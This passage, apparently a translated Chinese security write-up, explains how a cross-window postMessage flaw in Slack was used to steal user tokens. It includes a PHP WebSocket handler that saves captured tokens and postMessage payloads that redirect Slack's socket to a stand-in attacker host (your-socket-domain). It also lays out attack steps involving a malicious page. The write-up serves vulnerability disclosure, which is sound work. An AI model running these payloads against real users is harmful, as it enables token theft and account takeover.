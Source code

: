 [![](./img/85634/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01a249d481999dec59.png)

所以，我自己建立了一个本地WebSocket，我这里选择的是[Ratchet](http://socketo.me/)，因为它设置起来比较方便。我其实并不需要一个完整的socket，我只需要它能够正常响应init请求即可。所以我修改了onOpen请求，具体如下所示：

```
public function onOpen(ConnectionInterface $conn) {
    // Store the new connection to send messages to later
    $this-&gt;clients-&gt;attach($conn);
    $token = $conn-&gt;WebSocket-&gt;request-&gt;getQuery()['token'];
    echo sprintf("WE GOT TOKEN: %sn", $token);
    file_put_contents('token.txt', $token);
    echo "New connection! ({$conn-&gt;resourceId})n";
}
```

这段代码会将token导出到本地，然后我准备使用命令控制台来向窗口发送信息，并尝试能否连接我的socket：

```
window.postMessage({"origin_window_type":"incoming_call","message_type":"ms_msg","msg":{"reply_to":false,"type":"reconnect_url","url":"ws://your-socket-domain:9001/websocket/AAA"}}, "*")
```

结果并不尽如人意。因为原始的WebSocket已经建立了连接，当它调用其他事件时，并不会再初始化一次重连（reconnect）。但是当我在查看网站其他的事件处理器时，我发现了一个名叫“goodbye”的方法：

```
goodbye: function(imsg) {
    if (!TS.lazyLoadMembersAndBots())
        return;
    TS.info("Got a goodbye message, so disconnecting from the MS");
    TS.ms.disconnect()
},
```

原来，Slack将一个名叫“fast_reconnects_enabled”的参数设置为了“ture”，而正是这个参数才使得我能够执行reconnect_url事件，然后再通过goodbye事件完成重连。

<br>

**信息整合**

现在，我们来整理一下思路：

1.我们开启了一个本地的web-socket，它只有一个功能，就是监听、拦截，并将获取到的token参数保存到我们的服务器中。

2.当目标用户点击了我们恶意页面中的链接之后，我们会开启一个新的窗口，然后将用户定向到https://slack.com/call/me，最后将针对该窗口的引用保存在变量b之中。

3.我们还运行了一个小脚本来尝试通过我们自己的WebSocket来获取token。

4.接下来，通过下面这个postMessage来重置socket-URL：

```
b.postMessage({"origin_window_type":"incoming_call","message_type":"ms_msg","msg":{"reply_to":false,"type":"reconnect_url","url":"ws://your-socket-domain:9001/websocket/AAA"}}, "*")
```

5.每两秒钟我们还要调用一次goodbye方法来确保socket连接能够被中断：

```
b.postMessage({"origin_window_type":"incoming_call","message_type":"ms_msg","msg":{"reply_to":false,"type":"goodbye"}}, "*")
```
